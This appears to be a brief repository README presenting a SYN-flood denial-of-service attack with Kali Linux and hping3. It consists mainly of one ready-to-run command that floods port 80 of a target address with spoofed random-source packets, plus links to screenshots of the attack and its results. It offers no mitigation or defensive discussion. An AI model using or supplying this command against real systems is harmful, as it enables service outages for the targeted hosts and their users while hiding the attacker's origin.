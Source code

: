 # DDoS Attack using Kali Linux and hping3.

To make an SYN attack we will use Kali Linux and hping3. 
The command to send packets to a victim is:- hping3 -c 15000 -d 120 -S -w 64 -p 80 –flood –rand-source 192.168.1.4

![](https://i.imgur.com/WKPS7td.png)

#Results of the attack
![](https://i.imgur.com/5z2LtrT.png)
